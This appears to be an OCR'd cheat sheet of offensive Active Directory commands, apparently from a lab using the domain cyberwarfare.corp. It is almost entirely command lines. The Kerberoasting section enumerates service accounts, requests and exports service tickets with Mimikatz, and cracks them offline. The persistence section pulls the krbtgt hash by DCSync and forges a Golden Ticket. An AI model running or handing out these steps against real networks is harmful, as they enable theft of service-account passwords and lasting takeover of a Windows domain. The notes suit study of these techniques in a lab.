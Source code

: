 ## Kerberoasting

```powershell
Kerberoating is simply extracting the Ntlm hash of the service account from the TGS and
bruteforcing it.
- Find User accounts used as a service account
**Get-NetUser -SPN -Verbose**

-Enumerate all SPNs on a domain
setspn -T cyberwarfare.corp -Q */*

**-** Request TGS aka service ticket  (Powerview.ps1)
Request-SPNTicket

#Check the services running

Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList
"HTTP/portal.cyberwarfare.corp"

- Check ticket in memory
**klist

-** Export ticket from memory using mimikatz:
Invoke-Mimikatz -Command '"kerberos::list /export"'

- Now Crack the service account password using tgsrepcrack.py
python.exe .\tgsrepcrack.py .\password.txt Ticket.CORP.Kirbi'
```

### Persistence

```powershell
Extract krbtgt account hash :
Invoke-Mimikatz -Command '"lsadump::dcsync /user:cyberwarfare\krbtgt"' 

Domain SID :
whoami/all (of a domain user

Adversary Forge Golden ticket in a Domain as follows :
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:cyberwarfare.corp
/sid:S-1-5-21-xxxxx-yyyyy-xxxxx /krbtgt:xxxxxxxxxxxxxxxxxx /startoffset:0 /endin:600
/renewmax:10080 /ptt"' 
```
